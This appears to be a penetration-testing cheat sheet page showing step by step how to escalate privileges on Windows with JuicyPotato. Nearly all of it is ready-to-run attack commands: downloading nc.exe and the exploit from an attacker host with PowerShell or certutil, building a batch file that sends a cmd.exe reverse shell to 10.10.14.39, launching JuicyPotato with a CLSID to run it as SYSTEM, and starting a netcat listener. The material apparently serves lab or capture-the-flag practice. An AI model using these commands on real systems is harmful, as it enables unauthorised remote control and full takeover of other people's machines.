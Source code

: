 Check if the victim is vulnearble to JuicyPotato PE script. SeImpersonatePrivilege should be enabled.

```
C:\Windows\system32>whoami /priv
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Download nc.exe and juicypotato.exe to the victim host , then simply upload both to a writable directoy. I normall just write to a temp folder under \appdata\local\temp\\.

```
powershell.exe invoke-webrequest -uri http://$attackerip/nc.exe -outfile C:\users\user\appdata\local\temp\nc.exe
```

```
powershell.exe invoke-webrequest -uri http://$attackerip/JuicyPotato.exe -outfile C:\users\user\appdata\local\temp\jp.exe
```

If powershell isn't working, try with _certutil_ command.

```
certutil -urlcache -split -f http://$attackerip/JuicyPotato.exe jp.exe
```

Then create a rev.bat ( reverse shell bash ) file to get a reverseshell&#x20;

```
echo C:\users\user\appdata\local\temp\nc.exe -e cmd.exe 10.10.14.39 1340 > rev.bat
powershell.exe invoke-webrequest -uri http://$attackerip/rev.bat -outfile C:\users\user\appdata\local\temp\rev.bat
```

Then run Juicy with the correct  `clsid.`

```
jp.exe -t * -p C:\users\user\appdata\local\temp\rev.bat -l 1340 -c '{8F5DF053-3013-4dd8-B5F4-88214E81C0CF}'
```

On the attacker host, start the listener with some uncommon port

```
nc -lnvp 1340 
```

